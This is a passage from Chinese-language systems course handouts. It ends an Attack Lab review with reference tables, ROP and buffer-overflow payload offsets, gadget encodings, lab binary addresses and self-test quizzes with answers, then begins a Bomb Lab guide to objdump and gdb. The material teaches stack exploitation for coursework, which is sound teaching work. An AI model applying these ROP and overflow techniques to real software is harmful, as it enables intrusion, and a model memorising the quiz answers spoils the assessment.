偏移是字符串地址减去读取 %rsp 那一刻 %rsp 的值：120 – 32 = 88 = 0x58（第 3.5 节）。B 把字符串在 Payload 中的位置直接当成了偏移，忽略了 %rsp 已经越过了 buf。A 是从 B + 24（返回地址槽）算起的结果，那个槽在 getbuf 的 ret 时已经被消费了。D 多减了一个槽。如果把第一条 Gadget 换成 push %rsp; pop %rax; ret，push 临时写入的是已经消费过的槽，pop 又把 %rsp 恢复原样，所以 D 不变，也不会多占一个永久槽。
第六部分 速查与自测#
6.1 速查表#
表 25 寄存器、入口栈与常用指令
| 项目 | 说明 |
|---|---|
| 参数 1–6 | %rdi %rsi %rdx %rcx %r8 %r9 |
| 返回值 | %rax（32 位用 %eax） |
| 被调用者保存 | %rbx %rbp %r12–%r15 |
| 普通调用入口 | 调用前 %rsp % 16 = 0；刚入口 %rsp % 16 = 8；返回地址在入口 (%rsp) |
| call / ret | call 压 8 字节；ret 弹 8 字节到 %rip 并加 8 |
| push / pop | 8 字节 push 减 8，pop 加 8 |
| movq $imm32,%rdi | 48 c7 c7 + imm32；符号扩展，非负地址上限 0x7fffffff |
| movl %eax,%edx | 89 c2；写 32 位，高 32 位清零 |
| pop %rax / ret | 58 / c3 |
| mov %rax,%rdi | 48 89 c7 |
| nop | 90；只占空间，不改变 %rsp |
表 26 宽度、端序与输入
| 对象 | 宽度 | 写法 / 注意 |
|---|---|---|
| 返回地址、ROP 地址槽 | 8 字节 | 小端；本讲义构造时写满 8 字节 |
| Cookie 数值 | 4 字节 | 小端；放进 8 字节槽时高 4 字节补 0 |
| Cookie 字符串 | 9 字节 | 8 个 ASCII 字符正序 + NUL；保留前导零 |
| 指令 imm32 | 4 字节字段 | 按指令小端；整条指令长度另算 |
| int len | 4 字节 | 4 字节小端 |
| 有效攻击串 / raw 文件 | 32/33… | raw 多末尾换行；有效串内部不能有 0x0a |
表 27 偏移与症状
| 项目 | 公式 / 观察 | 说明 |
|---|---|---|
| 返回地址偏移 | 返回地址槽地址 − buf 起点 | 不要只抄 sub 立即数 |
| ret 后栈顶 | 返回地址槽地址 + 8 | 不是 buf+24 的固定公式 |
| Phase 5 的 D | 字符串地址 − 第一条 Gadget 的 %rsp | 本实例 104−32=0x48 |
| No exploit | 偏移/截断/旧文件 | 未覆盖返回地址 |
| 段错误在 getbuf ret | 返回地址槽写错 | 对齐/端序/宽度 |
| 段错误在 libc movaps | 栈模 16 不对 | 先列完整栈账 |
| Misfire 乱码 / 空串 | 指针偏大 / 指向 0 或被踩 | 检查 D 与写入区间 |
| Canary 报警 | 溢出触及 Canary | 检查 len 与文件长度 |
| 无服务器记录 | 仍在 -q 本地模式 | 正式上报需去掉 -q |
6.2 十条易错点#
表 28 Attack Lab 的高频错误
| 序号 | 易错点 | 正确做法 |
|---|---|---|
| 1 | 以为溢出数据会自动执行 | ret 只跳地址，必须在槽里放目标地址 |
| 2 | 照抄 sub 立即数当 buf 到返回地址距离 | 用实际地址差；buf 可能由 lea 形成 |
| 3 | 把所有东西都写成 8 字节 | 指令 imm32 4 字节、int 4 字节、字符串 9 字节 |
| 4 | 只写 4 字节地址就断言必然失败 | 可能碰巧成功；构造时写满 8 字节 |
| 5 | 在 getbuf ret 处看参数 | 注入代码执行后/touch 入口再看 |
| 6 | 字符串贴着代码放 | 对照 touch3/hexmatch 的实际写入区间 |
| 7 | Phase 5 从 B+24 算 D | 从第一条 Gadget 的 %rsp（B+32）算 |
| 8 | 把 push 目标; ret 当成能修栈对齐 | 净变化为 0；按模 16 和全部槽重算 |
| 9 | 改文本后不重新 hex2raw 或跑在旧目录/错 target | 重生成 .raw 并用 pwd、wc -c、xxd 核对目录与长度 |
| 10 | 只看地址区间判断 Gadget 合法 | 还要看解码、允许指令和副作用 |
6.3 自测题#
九道单选题覆盖本讲义的核心知识点，答案和逐项分析在 6.4 节，建议先独立完成再对照。
1．某 getbuf 的序言是 push %rbx; sub $0x20,%rsp，buf 由 lea 0x8(%rsp),%rdi 取得（%rsp 为 sub 之后的值）。buf 到返回地址槽的偏移，以及 ret 后 %rsp 相对 buf 的位置，分别是：
A. 32 与 40 B. 40 与 48 C. 24 与 32 D. 32 与 32
2．Phase 5 的链从 B + 32 开始执行，共有 8 个 Gadget 执行位置、1 个偏移数据槽和 1 个 touch3 地址槽，buf 的起点地址（记作 B）是 16 的倍数。进入 touch3 时 %rsp 及其模 16 的余数是：
A. B + 112，余 0 B. B + 104，余 8 C. B + 104，余 0 D. B + 96，余 0
3．只把返回地址槽的低 4 字节改成 0x401ca8，高 4 字节不写。下面说法正确的是：
A. 一定成功，因为 ret 会自动把低 4 字节零扩展成 8 字节
B. 一定成功，因为地址只有 4 字节
C. 一定失败，因为 ret 只读低 4 字节
D. 原来槽中的高 4 字节恰好为 0 时可能碰巧成功，但这不受保证，构造 Payload 时应写满 8 字节
4．movq $imm32,%rdi 把 32 位立即数符号扩展到 64 位。用它能直接装入的正数地址范围，以及 0x5560f6e8 是否在范围内，是：
A. 0 到 0x7fffffff；不在范围内
B. 0 到 0xffffffff；在范围内
C. 0 到 0x7fffffff；在范围内
D. 任意 64 位地址都可以；在范围内
5．movl %eax,%edx 执行之后，%rdx 的高 32 位是：
A. 0 B. 保持原值 C. %eax 最高位的符号扩展 D. 未定义
6．Phase 6 中，len 要等于返回地址槽的地址减去 logMsg 的起点。已知 logMsg 位于 rbp – 0x120，返回地址槽位于 rbp + 8，logMsg 是 128 字节的数组。len 应为：
A. 136 B. 128 C. 296 D. 288
7．关于 raw 文件与 Gets，正确的一项是：
A. hex2raw 在末尾输出一个换行 0x0a 作为输入的终止符；有效攻击串内部如果出现 0x0a，Gets 会提前停止
B. Gets 读到 0x00 就停止，所以 Payload 中不能出现 00
C. raw 文件中的换行会被 Gets 当作普通字节写入 buf
D. 有效攻击串的长度与 raw 文件的长度总是相等
8．判断一个农场 Gadget 能否使用时，下面哪一项不是必须检查的？
A. 它对内存、标志位和链中其他寄存器的副作用可以接受
B. 它的地址在允许的农场范围内
C. 从该地址开始能完整解码到 ret
D. 它的地址能否被 16 整除
9．gdb 停在 Phase 4 的 pop Gadget 处（pop 尚未执行）。想看到 mov Gadget 执行之后的 %rdi，下面做法正确的是：
A. 直接 p/x $rdi
B. 执行三次 si（pop、ret、mov），再 p/x $rdi
C. 执行一次 si，再 p/x $rdi
D. 执行 x/x $rdi
6.4 自测题答案#
1．A。设入口时 %rsp = E。push 后为 E – 8，sub 后 S = E – 0x28，buf = S + 8 = E – 0x20，返回地址槽在 E，偏移 0x20 = 32；ret 后 %rsp = E + 8，相对 buf 为 0x28 = 40。B 把 lea 的 8 字节漏算了；C 漏算了 push；D 忘了 ret 会再弹出 8 字节。
2．B。从 B + 32 开始，八次 Gadget 的 ret（第八次就是跳到 touch3 的那次）与一次 pop 数据槽共消费 9 个槽、72 字节，进入 touch3 时 %rsp = B + 104，模 16 余 8，正好符合普通函数入口的余数（call 压入返回地址后，%rsp 模 16 余 8）。A 多数了一个槽；C 算对了地址，余数却算错了；D 少数了一个槽。
3．D。ret 弹出完整的 8 字节；只写低 4 字节时，高 4 字节是槽中原来的内容。它在本实例中通常恰好为 0，所以可能碰巧成功，但这并不受保证。B、C、A 对 ret 的行为描述都不对：它既不只读 4 字节，也不做零扩展。
4．C。符号扩展后，0x80000000 及以上的值会变成负数，所以能直接装入的正地址是 0 到 0x7fffffff；0x5560f6e8 小于 0x7fffffff，在范围内。B 忽略了符号扩展；A 判断错了；D 不对，立即数字段只有 32 位。
5．A。x86-64 规定，写一个 32 位寄存器会把对应 64 位寄存器的高 32 位清零。Phase 5 正是利用这一点，把小的非负偏移从 %eax 经 %edx、%ecx 搬到 %esi 时保持高 32 位为零。B 是写 8 位或 16 位寄存器时的行为；C 是 movslq 的行为；D 不对，这一点有明确规定。
6．C。(rbp + 8) – (rbp – 0x120) = 0x128 = 296。B 是数组的大小，不是起点到返回地址槽的距离；A 是把 8 + 128 当成偏移的结果；D 是 0x120，漏了返回地址槽相对 rbp 的 8 字节。
7．A。Gets 读到换行为止，把之前的字节写进 buf，再补一个 0x00；raw 文件末尾的 0x0a 是输入的终止符，所以 raw 文件可能比有效攻击串多 1 字节，D 因此不对。有效串内部出现 0x0a，Gets 就会提前停止，后面的字节不会进入 buf。B 混淆了 Gets 与字符串函数：00 可以出现在 Payload 中，Gets 照样读入。C 说反了，换行恰恰是 Gets 停止读入的标志。
8．D。Gadget 由 ret 跳转进入，地址可以是任意字节位置，与 16 字节对齐无关；需要注意 16 字节对齐的是进入 touch3 等函数时的 %rsp（自测 2），而不是 Gadget 的地址。B、C、A 都是必须检查的，另外还要检查指令和寄存器在 handout 允许的集合内。
9．B。停在 pop 处时 pop 还没有执行，要依次执行 pop、它的 ret（跳到 mov Gadget）、mov，才能看到 %rdi 的新值，所以是三次 si。A 看到的是 pop 之前的 %rdi；C 只执行了 pop，Cookie 还在 %rax 里；D 把 %rdi 的值当成地址去读内存，看到的不是寄存器本身的值。
6.5 中英术语对照#
表 29 常用术语
| English | 中文 | 说明 |
|---|---|---|
| buffer overflow | 缓冲区溢出 | 写入超过缓冲区边界 |
| payload / exploit string | 攻击串 / 载荷 | 送入目标程序的字节流 |
| gadget | 代码片段（Gadget） | 以 ret 结尾的短指令序列 |
| gadget farm | Gadget 农场 | 编译器生成的可用代码区 |
| ROP | 返回导向编程 | 用 Gadget 链控制执行流 |
| stack canary | 栈金丝雀 | 返回前校验的哨兵值 |
| NX / DEP | 不可执行 | 栈/堆页不能当代码执行 |
| ASLR | 地址空间随机化 | 随机化栈、库等地址 |
| PIE | 位置无关可执行文件 | 程序可随机加载，相对偏移保留 |
| hex2raw | 十六进制转字节工具 | 文本输入转换为二进制输入 |
6.6 附录：本实例地址与 Payload 速查#
下面的地址表覆盖三个程序中与本讲义相关的符号。函数地址用于返回地址或 push/ret 的目标，农场边界用于判断 Gadget 是否合法；验证环境中的 buf 地址只作为算例，实际做题时用 gdb 现场读出。add_xy 的函数入口与 lea 入口分列，避免把 endbr64 当成加法本体。
表 30 三个程序的关键符号地址
| 符号 | ctarget | rtarget | starget |
|---|---|---|---|
| getbuf | 0x401c1c | 0x401c1c | — |
| getbuf_withcanary | — | — | 0x401e6b |
| touch1 | 0x401ca8 | 0x401c36 | 0x401c3d |
| touch2 | 0x401cdc | 0x401c6a | 0x401c71 |
| touch3 | 0x401e02 | 0x401d90 | 0x401d97 |
| hexmatch | 0x401d46 | 0x401cd4 | 0x401cdb |
| start_farm | — | 0x401ed6 | 0x401edd |
| mid_farm | — | 0x401f35 | 0x401f3c |
| end_farm | — | 0x40209b | 0x4020a2 |
| add_xy 入口 | — | 0x401f3f | 0x401f46 |
| add_xy 的 lea | — | 0x401f43 | 0x401f4a |
表 31 六个 Payload 的有效长度与关键偏移
| Phase | 程序 | 有效长度 | 关键偏移 | 关键内容 |
|---|---|---|---|---|
| 1 | ctarget | 32 | 24 | touch1 地址 |
| 2 | ctarget | 32 | 24 | buf 地址 |
| 3 | ctarget | 41 | 24 / 32 | buf 地址 / 字符串 |
| 4 | rtarget | 56 | 24 / 32 / 40 / 48 | pop / Cookie / mov / touch2 |
| 5 | rtarget | 113 | 24 / 48 / 104 | 链起点 / D=0x48 / 字符串 |
| 6 | starget | 136 | 0 / 80 / 132 | 链起点 / 字符串 / len=296 |
表中的地址只对这三个二进制成立；换一套 target 文件后，函数地址、农场范围和 Gadget 位置都会变。不变的是四条推演规则：偏移来自实际地址差，地址槽和 ROP 槽按完整 8 字节构造，宽度与扩展要分清，字符串位置要对照实际写入区间。
—— Attack Lab 讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
Bomb Lab：读汇编、用 gdb、拆炸弹（Defusing a Binary Bomb）
如何使用本讲义#
Bomb Lab 和 Data Lab 的差别很大。Data Lab 是“按位运算闯关”，Bomb Lab 是“读别人的机器码”：每个 phase 都是一段没有文档的汇编，你要在纸上（或 gdb 里）弄清它在检查什么，再构造一行能让它通过的输入。学期末的 Lab 测验是单选题，不上机，所以真正要练的是三件事：把一段汇编读成等价的 C；根据汇编判断一个输入能不能通过；熟悉 gdb 的常用命令、它们输出的含义以及断点的工作原理。
本讲义先用第 0 部分讲上手与测评，正文分六部分。第一部分讲炸弹的结构、评分方式、objdump 与 gdb 的基本用法，以及拆弹时必须注意的安全问题。第二部分把“在汇编里认出 C 结构”做成一个方法工具箱，覆盖调用约定、lea 与条件传送、常见循环形状、switch 跳转表、递归、数组与静态地址寻址、链表和二叉树。第三部分逐关详解 phase 1 到 phase 6，以及隐藏关：题意、关键汇编、还原出的 C、答案的推导和验证，最后给一个同类变体。第四部分整理 Bomb Lab 各关的常见变体，并配新编函数的汇编示范。第五部分按 Lab 测验的题型给单选例题。第六部分是速查表、易错点清单和九道单选自测题。
第三部分的每一段关键汇编都从本学期的炸弹二进制重新反汇编得到，地址与指令逐字一致；每一关的答案都写进答案文件，在断网的 x86-64 环境里实际运行通过（输出保存在配套的 sim 目录中）。隐藏关也做了同样的验证。讲义中不出现姓名、学号、账号和炸弹编号，所有结论可以独立复核。
为了让目录保持在一页以内，第四至六部分的小节标题比前三部分低一级（不进入目录）；正文中仍按 x.y 编号，按标题查找即可。
表 1 本讲义的内容地图
| 部分 | 内容 | 小节 |
|---|---|---|
| 上手与测评 | 环境、材料、构建与自测、按 phase 的起步路线、提交前自检 | 0.1–0.4 |
| 规则与工具 | 炸弹主流程、评分与扣分、objdump、gdb、安全拆弹 | 1.1–1.4 |
| 方法工具箱 | 调用约定、算术与条件指令、循环、switch、递归、数组、链表、二叉树、还原三步法 | 2.1–2.9 |
| 逐关详解 | phase 1–6 的题意、汇编、C 还原、答案与变体；隐藏关的入口与解法 | 3.1–3.7 |
| 常见变体 | 各关的经典版、本学期版和常见改法；三个新编函数的示范 | 4.1–4.5 |
| 测验题型 | 单选：读汇编、判断输入、gdb 用法与输出、地址计算、还原错误、工具与规则 | 5.1–5.6 |
| 速查与自测 | 速查表、易错点清单、自测题与答案 | 第六部分 |
0 上手与测评#
Bomb Lab 没有需要编写或编译的代码。拿到炸弹之后要做的事只有三件：用 objdump 把它反汇编，用 gdb 在关键位置停下来观察，再把推出的每关输入写进一个答案文件。真正花时间的是读汇编，这部分的方法和逐关推导在第二、三部分；这一部分讲的是动手之前就该准备好的东西：环境、gdb 的设置、答案文件的格式，以及调试时最容易出的几种事故。做 Bomb Lab 时栽的跟头，有一半与汇编无关，而是出在网络、容器和答案文件上。
0.1 环境与材料#
实验说明要求在自己的 xLab 容器里完成：炸弹启动时和每关结束时都要与评分服务器通信，在别处运行要么连不上服务器，要么产生意外的上报。每人的炸弹都不同，在 Autolab 下载自己的 bomb 包，用 Linux 的 tar 解开，不要移动、重命名或重新编译炸弹。
表 2 Bomb Lab 的材料与用途
| 文件 | 用途 | 使用要点 |
|---|---|---|
| bomblab.pdf | 官方实验说明（7 页） | 先读拆弹流程、评分，以及“不要移动、重命名炸弹”的说明 |
| bomb | 自己的炸弹（x86-64 ELF） | 不要移动、重命名或重新编译；换机器后重新下载 |
| bomb.c | 主函数：读入每一行、依次调用各个 phase | 用来确认输入的读法，不包含任何关卡的判断逻辑 |
| bomb.s（自己生成） | 全部反汇编 | objdump -d bomb > bomb.s，方便全文搜索 |
| 答案文件（自己创建） | 每关一行输入 | 例如 psol.txt；每一行都要以换行结尾（第 0.3 节） |
课程容器通过 ssh 访问，环境方面有两个问题值得提前知道。第一个是网络：如果本机的代理软件开着 TUN（虚拟网卡）模式，它会接管所有流量，连往课程容器内网地址的 ssh 也被送进代理，结果是 VS Code 的远程连接一直连不上。解决办法是在代理的规则里把校园网的内网网段设为直连，例如把 10.129.0.0/16 加入 TUN 的排除网段，或者加一条 IP-CIDR 直连规则，xLab 网页所在的 pku.edu.cn 域名也一并直连。第二个是容器本身：容器偶尔会卡在“停止中”之类的状态，在网页和手机上反复点按钮都没有用，这通常是平台后台的问题，应当尽快联系助教。容器出问题时，写在容器里的草稿可能一起丢失，所以分析笔记、反汇编文件和还原出的 C 都应当在本机也保存一份。
容器暂时用不了，工作也不必停下。反汇编是纯粹的静态分析，不运行炸弹，也就不会爆炸：把炸弹复制到任何一台 Linux 机器（或者容器）上，objdump -d bomb > bomb.s 和 objdump -t bomb | grep node 照样可以用。读 objdump 的输出时注意，它的每行开头是文件中的地址，跳转目标写成 <phase_6+0x20>，加号后面的偏移是十六进制；想找某个跳转的目标，直接搜索 1874: 这样的地址最快。
0.2 gdb 的准备与安全运行#
拆弹的基本工具是 gdb，它的准备只需要几行命令。最重要的是 break explode_bomb：只要断点设在那里，输入错误时程序会在真正爆炸之前停下来。把每次都要输入的命令写进一个文件，用 -x 让 gdb 启动时执行，就不会忘记：
$ cat bomb.gdb
set debuginfod enabled off
set args psol.txt
break explode_bomb
break phase_6
$ gdb -q -x bomb.gdb ./bomb
(gdb) run这些命令也可以写进当前目录的 .gdbinit，但出于安全考虑，gdb 默认拒绝自动执行当前目录下的 .gdbinit，只给出“auto-loading has been declined”的警告（实测 gdb 15.1），所以用 -x 指定一个命令文件最省事。第一行关掉 gdb 每次启动时“Enable debuginfod for this session?”的询问，第二行让 run 自动以 psol.txt 作为输入，后两行设断点（phase_6 换成正在做的那一关）。另外，display/6dw $rsp 让 gdb 每次停下时自动打印栈顶的 6 个整数，适合观察循环。使用分屏的 TUI 界面（layout asm）时，显示偶尔会错乱，按 Ctrl-L 刷新，按 Ctrl-X 再按 A 退出分屏。
调试时有几条规矩要始终遵守。停在 explode_bomb 的断点上，说明炸弹还没有爆炸，这时应当立即 kill，绝不能 continue、ni 或 finish，那样会真的爆炸并上报。程序在等待输入、没有出现提示符时，先按 Ctrl-C 中断再 kill。改了答案文件之后，直接 run 并回答 y 就会从头重新运行，断点和设置都保留。想从第 N 关开始调试，就把前面几关的答案写进答案文件、把断点设在 phase_N 上；不要用 jump 跳过前面的关卡，那会跳过初始化和上报的逻辑。评分方面，六关中前四关各 15 分，后两关各 20 分，共 100 分，隐藏关不计分；每次爆炸扣 0.5 分，最多扣 20 分（第 1.1 节）。
0.3 答案文件#
答案文件每关一行，炸弹用 read_line 逐行读入。read_line 默认每一行的最后一个字符是换行，读入之后把它删掉；如果文件的最后一行没有换行，被删掉的就是答案本身的最后一个字符，这一关必然失败。这是最容易犯、也最冤枉的错误，检查方法是 cat -A：
$ cat -A psol.txt
Is there really APTX4869 in the world?$
0 1 1 3 5 11$
$ echo >> psol.txt # 末尾缺换行时补一个cat -A 在每一行的末尾显示一个 $，每一行（包括最后一行）都应当以 $ 结尾；如果出现 ^M，说明文件是在 Windows 中编辑的，行尾多了回车符，要转换成 Unix 的换行。另一个常见的错误是把 x/s 显示的双引号也抄进答案：gdb 在字符串两边加引号只是为了标出边界，引号本身不是字符串的内容。稳妥的做法是，新推出的答案先在 gdb 里、开着 explode_bomb 断点运行一遍，确认通过后再直接运行 ./bomb psol.txt。
0.4 按 phase 的起步路线#
每一关都先找到函数入口，确定输入的形式，再决定在哪里停下来观察。下表给出各关的第一个动作和最容易卡住的地方，逐关的完整推导见第三部分。
表 3 Bomb Lab 各关的起步路线
| phase | 输入形式 | 第一个动作 | 常见卡点与对应小节 |
|---|---|---|---|
| 1 | 一个字符串 | 在 phase_1 中找到 strings_not_equal 之前的 lea，在 gdb 中运行到 call 处，用 x/s $rsi 查看常量串 | 答案末尾的换行；不要抄进引号；用 RIP 相对地址时要加上加载基址。见 3.1 |
| 2 | 六个整数 | 找到 read_six_numbers 之后的循环，在循环入口用 x/6dw $rsp 查看六个数 | lea (%rdx,%rcx,2) 是乘加而不是取地址；从汇编推出递推关系，不要套用网上的版本。见 3.2 |
| 3 | 整数、字符、整数 | 确认 sscanf 的格式串和三个输出地址，再看跳转表 | 格式串第 k 项对应第 k + 2 个参数，按 lea 写进的寄存器对应；cmp $0x2,%eax 检查的是 sscanf 的返回值。见 3.3 |
| 4 | 两个整数 | 读 func4 的递归结构，在 gdb 中直接调用 p (int)func4(7, 0, 14) 试几个值 | 返回值是怎样算的要看 ret 之前对 %eax 的操作；被调用者保存寄存器。见 3.4 |
| 5 | 两个整数 | 找到 & 0xf 和 16 个整数的数组，用 x/16dw 查看数组 | 低 4 位相同的数效果相同；步数和累加和要同时满足。见 3.5 |
| 6 | 六个整数 | 先把四个循环的边界划出来，再逐个翻译 | 漏写 n = n->next；把循环的更新语句读进循环体。见 3.6 |
| 隐藏关 | 一行 0/1 串 | 在 phase_defused 中找触发条件 | 入口要在 phase 2、phase 4 两行追加暗号。见 3.7 |
0.5 读汇编的几个习惯#
逐关推导之前，先把几个习惯养成，它们比任何单独的技巧都管用。看到 call，先问参数寄存器里放的是什么、call 之后对 %eax 做了什么；看到一个地址，先问它指向什么类型，再选对应的 x/NFU 格式：下标乘 4、读进 %eax 的用 w，乘 8、读进 %rax 的用 g，传给字符串函数的用 s。十六进制换算交给 gdb，p 0x1fa 得 506，p/x 506 得 0x1fa，不要心算。
循环是最容易读乱的地方。一下子从汇编跳到 for 循环，往往被几条 jmp 绕晕；更可靠的做法是分三步：先固定每个寄存器的含义，再按地址顺序把汇编逐行翻译成带 goto 的 C，只翻译不思考结构，最后找出“往回跳”的跳转，认出初始化、条件、更新和循环体，整理成 for（第 2.3、2.9 节）。从 goto 版整理成 for 时要逐条核对，最常见的错误就是丢掉一条语句，比如链表遍历中的 n = n->next。
还有两个提高效率的办法。想弄清一个循环在做什么，与其逐条 ni，不如在同一个断点处、换几组不同的输入，对比内存的变化。当某一关的输入空间很小时（比如 phase 4 的第一个数只能是 0 到 14），可以在 gdb 中直接调用关卡里的函数逐个试，这是合法而且高效的离线穷举。
第一部分 规则、工具与评分#
1.1 炸弹的结构#
Bomb Lab 给每个同学一个 ELF 可执行文件 bomb，它内部有六个 phase（隐藏关算第七个）。程序的主循环非常固定：调用 read_line 读入一行，把这一行的指针交给 phase_n，再调用 phase_defused 上报一次“这一关已拆除”，然后打印一句鼓励的话，进入下一关。六关都通过之后程序正常返回；任何一关判断失败，都会调用 explode_bomb，打印“BOOM!!!”并结束。
下面这段是主循环的骨架，省略了错误处理和提示文字：
fp = initialize_bomb(); /* 返回一个指向 4 字节整数的指针 */
if (*fp != SECRETTOKEN) { /* 0x2021fa11，本地机器检查 */
printf("Don't try to make the bomb run on your local machine!\n");
return 0;
}
input = read_line(); phase_1(input); phase_defused(fp); /* 第一关 */
input = read_line(); phase_2(input); phase_defused(fp); /* 第二关 */
/* ... 第三、四、五关 ... */
input = read_line(); phase_6(input); phase_defused(fp); /* 第六关 */read_line 把每一行存进固定大小（本实例为 120 字节）的数组 input_strings，读入时会把行尾的换行符删掉；如果答案文件最后一行没有换行符，删掉的就会是这一行真正的最后一个字符。read_line 还会跳过只有换行符的空行，答案文件读到 EOF 后程序会转而从标准输入继续读，因此最后一行必须以换行结尾，中间的空行不算有效答案。每个 phase 结束后都会调用 phase_defused：它通过 send_msg 自动把这一关的结果报到评分服务器，成功就继续，失败则打印提示并退出。正因为有自动上报，调试时要在关键函数下断点观察，而不是等程序跑完再猜；炸弹只应在 xLab 容器或断网副本里拆，这一点在第 1.4 节详细说明。
表 4 六关与隐藏关的考查内容（据本学期的炸弹整理）
| 关卡 | 输入形式 | 考查内容 |
|---|---|---|
| phase 1 | 一个字符串 | 字符串比较：strings_not_equal 与常量串 |
| phase 2 | 六个整数 | 读六个数，按递推关系逐项检查 |
| phase 3 | 整数、字符、整数 | sscanf 的返回值与参数、switch 跳转表 |
| phase 4 | 两个整数 | 递归函数 func4：二分查找、沿途 mid 求和 |
| phase 5 | 两个整数 | 低 4 位作下标，在 16 个整数的表里跳转，计数并求和 |
| phase 6 | 六个整数 | 排列检查、按排列取链表节点、重新串链、检查升序 |
| 隐藏关 | 一行 0/1 串 | 在隐藏入口触发后，检查它是不是有限状态机的同步序列 |
本学期的炸弹还带一点“反调试”设计：程序在启动时会先与评分服务器建立连接，失败就报初始化错误并退出；每个 phase 之后的 phase_defused 也要求上报成功。讲义第三部分给出的所有运行结果，都是在一个断网副本上得到的。副本只改写了 init_driver 和 send_msg 两个与网络有关的函数，关卡的判断逻辑一个字节都没有动；具体做法和脚本放在配套的 sim 目录里。这样处理只是为了能离线复核答案，并不改变题目本身。
Bomb Lab 满分 100 分，六个 phase 中前四个各 15 分，phase 5 和 phase 6 各 20 分，总计 100 分。隐藏关不计分，实验说明里把它称为“保卫我们脆弱的小机器”的额外任务。每次爆炸都会向 Autolab 报告，扣 0.5 分，最多扣 20 分；也就是说，爆炸次数超过 40 次之后不再继续扣，但分数已经不可能满分了。
实验说明要求在自己的 xLab 容器里完成，因为炸弹要能连上课程服务器才能正常运行。实验截止之前只应下载一个炸弹；如果重复下载了多个，应保留一个并删除其余。每关结束都会自动上报，不需要另外的 handin；讲义不讨论提交细节，只把“不要产生意外的爆炸上报”作为一条硬性注意事项。
1.2 objdump：把二进制变成可以读的汇编#
objdump 是读炸弹最基础的工具，常用三种用法。objdump -d bomb 反汇编代码段，给出地址、机器码、指令和（对跳转与 RIP 相对寻址）注释；objdump -t bomb 打印符号表，可以按名字找到 phase、node、input_strings 等符号的位置；objdump -s -j .rodata bomb 以十六进制加 ASCII 的形式打印只读数据段，用来查看格式串、跳转表、常量数组和字符串。下面是从本学期的炸弹上实际截取的输出：
$ objdump -t bomb | grep -E 'explode_bomb|send_msg|phase_|node'
0000000000001475 g F .text 0000000000000081 abracadabra
0000000000001571 g F .text 0000000000000020 phase_1
...
0000000000006150 g O .data 0000000000000010 node1
0000000000006160 g O .data 0000000000000010 node2$ objdump -d --no-show-raw-insn --disassemble=phase_1 bomb
0000000000001571 <phase_1>:
1571: sub $0x8,%rsp
1575: lea 0x1c8c(%rip),%rsi # 3208 <_IO_stdin_used+0x208>
157c: call 1ae5 <strings_not_equal>
1581: test %eax,%eax
1583: jne 158a <phase_1+0x19>
1585: add $0x8,%rsp
1589: ret
158a: call 1d44 <explode_bomb>读懂 objdump 的输出，关键是分清三列。最左边是链接时确定的虚拟地址（对 PIE 可执行文件则是相对加载基址的偏移，例如 0x1571）；随后是 AT&T 语法的汇编，源操作数在前、目标操作数在后。完整输出里地址与汇编之间还有机器码字节，本段为了排版省略了它，不影响对指令的理解。跳转和调用后面括号里的 <phase_1+0x19> 是符号加偏移的写法，0x19 是十六进制，等于 25，表示目标地址比 phase_1 的入口晚 25 个字节。最后一条 lea 指令的注释 # 3208 是 objdump 顺带算出的有效地址，它对应只读数据段里的一个字符串；但要注意，这是链接时地址（对 PIE 是相对加载基址的偏移），运行时的真实地址要加上当时的加载基址。
⚠ 文件内地址不是运行时地址
objdump 和符号表里的 0x3208、0x3340 是链接时确定的虚拟地址；炸弹是 PIE（位置无关可执行文件），运行时整体加载到某个基址上。以本实例日志中的基址 0x555555556000 为例，0x555555556000 + 0x3208 = 0x555555559208，所以 gdb 里看到的字符串地址是后者。读代码时用文件内地址没问题；在 gdb 里要访问某个对象，最稳的办法是用符号名（如 x/s &input_strings）或让程序跑到指令之后直接看寄存器，不要拿 objdump 的地址去 x。
1.3 gdb：常用命令与输出的样子#
gdb 的基本工作流是：先用 gdb ./bomb 启动，用 break 下断点，用 run answers.txt 把答案文件作为参数运行，程序停在断点后用 x 看内存、用 info registers 看寄存器，最后用 kill 结束这次运行而保留断点。实验说明还特别提醒：不要用调试器直接跳到某一关（例如用 jump 或改 $pc），否则炸弹可能“悄悄”爆炸；想中途退出时按 Ctrl-C。下表列出最常用的命令，后面给出几个真实的会话片段。如果环境中的 gdb 配置了 debuginfod，可以先执行 set debuginfod enabled off（或写入 ~/.gdbinit）避免联网下载调试符号；讲义的会话不依赖调试符号。
表 5 拆炸弹时最常用的 gdb 命令
| 命令 | 作用 |
|---|---|
break phase_3、break *phase_3+0x29 | 在函数入口或函数内某个地址下断点 |
run answers.txt、run < answers.txt | 以文件或标准输入作为炸弹的输入运行 |
stepi、nexti | 单步执行一条机器指令；nexti 会越过 call |
disas phase_3、disas /r phase_3 | 反汇编当前函数；/r 同时显示机器码 |
info registers、info registers rdi rsi | 查看全部或指定寄存器的值 |
x/s $rsi | 把 $rsi 指向的内存当作 C 字符串打印 |
x/6dw $rsp | 从 $rsp 开始，按 4 字节十进制打印 6 个整数 |
x/8gx &input_strings | 按 8 字节十六进制打印 8 个 giant word |
x/16dw &'array.0' | 带点号的符号要加单引号 |
p/x $rax、p 0x1fa、p *(int*)$rsp | 以十六进制打印寄存器值、把十六进制转十进制、解引用 |
display/6dw $rsp | 每次停下来都自动打印这 6 个整数 |
finish | 执行到当前函数返回，并打印返回值 |
kill | 结束本次运行，断点保留 |
x 命令的格式是 x/NFU 地址，其中 N 是看几个单位，F 是显示格式（x 十六进制、d 十进制、u 无符号、c 字符、s 字符串、i 指令、a 地址），U 是每个单位的大小（b 一字节、h 两字节、w 四字节、g 八字节）。选择单位的方法不是背出来的，而是看汇编怎么访问这块内存：下标乘 4、读进 %eax，就用 w；乘 8、读进 %rax，就用 g；交给 strings_not_equal 的指针，就用 s。下面是 phase 1 断在 strings_not_equal 时的真实输出：
(gdb) break strings_not_equal
(gdb) run answers.txt
Breakpoint 1, 0x0000555555557ae5 in strings_not_equal ()
(gdb) bt 3
#0 0x0000555555557ae5 in strings_not_equal ()
#1 0x0000555555557581 in phase_1 ()
#2 0x00005555555573bb in main (argc=<optimized out>, argv=<optimized out>) at bomb.c:79
(gdb) x/s $rdi
0x55555555c620 <input_strings>: "Is there really APTX4869 in the world?"
(gdb) x/s $rsi
0x555555559208: "Is there really APTX4869 in the world?"这段输出同时说明了三件事：phase_1 把读入的一行放在 $rdi、把常量串放在 $rsi，交给 strings_not_equal；两个字符串肉眼可见地相同；input_strings 这个符号的地址是 0x55555555c620。同理，phase 2 在 read_six_numbers 返回后，六个整数就排在 $rsp 开始的 24 个字节里：
